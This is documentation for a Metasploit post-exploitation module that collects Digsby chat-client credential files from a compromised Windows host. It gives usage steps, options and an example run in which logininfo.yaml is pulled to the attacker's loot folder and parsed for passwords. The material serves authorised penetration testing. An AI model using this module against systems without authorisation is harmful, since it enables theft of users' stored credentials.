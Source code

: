 ## Module Description

This post-exploitation module gathers artifacts found on Digsby related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/digsby
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
```
msf6 post(windows/gather/credentials/digsby) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Digsby's parent folder found
[*] Digsby's Logininfo.yaml file found
[*] Downloading C:\Users\IEUser\AppData\Local\Digsby\logininfo.yaml
[*] Digsby Logininfo.yaml downloaded
[+] File saved to:  /root/.msf4/loot/20210524095736_default_192.168.56.106_digsbylogininfo._191730.bin

[+] password:""
[+] password:!binary|
[+] username:""
[+] username:!python/unicode************
[+] File with data saved:  /root/.msf4/loot/20210524095736_default_192.168.56.106_EXTRACTIONlogini_987217.bin
[*] PackRat credential sweep Completed
[*] Post module execution completed
```